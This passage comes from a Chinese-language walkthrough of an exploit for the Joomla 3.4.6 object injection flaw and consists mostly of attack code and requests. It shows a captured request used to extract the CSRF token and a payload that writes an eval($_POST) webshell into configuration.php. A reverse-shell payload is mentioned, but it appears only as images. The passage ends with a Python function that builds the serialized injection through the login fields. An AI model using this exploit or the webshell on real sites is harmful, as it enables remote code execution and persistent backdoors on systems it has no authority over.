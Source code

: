 通过burpeuite抓到的请求包2：

```
GET /Joomla/3.4.6/index.php/component/users HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: dc674b0eef3d2412c63832504cf5ac18=sfoodgd4m6fj2c1895u5b2tmp6;
```

主要是从返回包中提取 csrftoken

[![](https://p4.ssl.qhimg.com/t013bafdb4d12d6d41c.png)](https://p4.ssl.qhimg.com/t013bafdb4d12d6d41c.png)

3.生成payload 这里有2个payload

**后门的payload**

代码:

[![](https://p3.ssl.qhimg.com/t018d23827dce01e65c.png)](https://p3.ssl.qhimg.com/t018d23827dce01e65c.png)

利用PHP自带的file_put_contents函数写入webshell到configuration.php中，webshell内容如下：

```
'if(isset($_POST['scgcapjoqwokhrtmlutbljpzmqzwcbncowtiztctfekiwtfzay'])) eval($_POST['scgcapjoqwokhrtmlutbljpzmqzwcbncowtiztctfekiwtfzay']);'
```

**反弹的payload**

[![](https://p3.ssl.qhimg.com/t014f48326ca0f27154.png)](https://p3.ssl.qhimg.com/t014f48326ca0f27154.png)

[![](https://p5.ssl.qhimg.com/t0170b281ef982fa3fe.png)](https://p5.ssl.qhimg.com/t0170b281ef982fa3fe.png)

4.发送带有写入webshell的请求

主要构造username,password,option,task,csrftoken等字段

```
def make_req(url , object_payload):
        # just make a req with object
        print_info('Getting Session Cookie ..')
        cook = get_cook(url)
        print_info('Getting CSRF Token ..')
        csrf = get_token( url, cook)

        user_payload = '\0\0\0' * 9
        padding = 'AAA' # It will land at this padding
        working_test_obj = 's:1:"A":O:18:"PHPObjectInjection":1:`{`s:6:"inject";s:10:"phpinfo();";`}`'
        clean_object = 'A";s:5:"field";s:10:"AAAAABBBBB' # working good without bad effects

        inj_object = '";'
        inj_object += object_payload
        inj_object += 's:6:"return";s:102:' # end the object with the 'return' part
        password_payload = padding + inj_object
        params = `{`
            'username': user_payload,
            'password': password_payload,
            'option':'com_users',
            'task':'user.login',
            csrf :'1'
            `}`

```
